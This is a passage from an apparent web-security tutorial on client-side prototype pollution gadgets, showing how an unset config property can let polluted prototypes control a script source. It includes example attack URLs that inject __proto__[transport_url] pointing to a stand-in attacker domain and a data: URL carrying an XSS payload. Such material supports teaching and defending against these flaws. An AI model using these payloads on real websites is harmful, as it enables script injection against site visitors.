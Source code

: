 - Used by the application in an unsafe way, such as passing it to a sink without proper filtering or sanitization.
    
- Attacker-controllable via prototype pollution. In other words, the object must be able to inherit a malicious version of the property added to the prototype by an attacker.
    

A property cannot be a gadget if it is defined directly on the object itself. In this case, the object's own version of the property takes precedence over any malicious version you're able to add to the prototype. Robust websites may also explicitly set the prototype of the object to `null`, which ensures that it doesn't inherit any properties at all.

## Example of a prototype pollution gadget

Many JavaScript libraries accept an object that developers can use to set different configuration options. The library code checks whether the developer has explicitly added certain properties to this object and, if so, adjusts the configuration accordingly. If a property that represents a particular option is not present, a predefined default option is often used instead. A simplified example may look something like this:

`let transport_url = config.transport_url || defaults.transport_url;`

Now imagine the library code uses this `transport_url` to add a script reference to the page:

```javascript
let script = document.createElement('script');
script.src = `${transport_url}/example.js`;
document.body.appendChild(script);
```

If the website's developers haven't set a `transport_url` property on their `config` object, this is a potential gadget. In cases where an attacker is able to pollute the global `Object.prototype` with their own `transport_url` property, this will be inherited by the `config` object and, therefore, set as the `src` for this script to a domain of the attacker's choosing.

If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:

`https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`

By providing a `data:` URL, an attacker could also directly embed an XSS payload within the query string as follows:

`https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//`

Note that the trailing `//` in this example is simply to comment out the hardcoded `/example.js` suffix.

## Finding client-side prototype pollution sources manually

Finding prototype pollution sources manually is largely a case of trial and error. In short, you need to try different ways of adding an arbitrary property to `Object.prototype` until you find a source that works.

When testing for client-side vulnerabilities, this involves the following high-level steps:
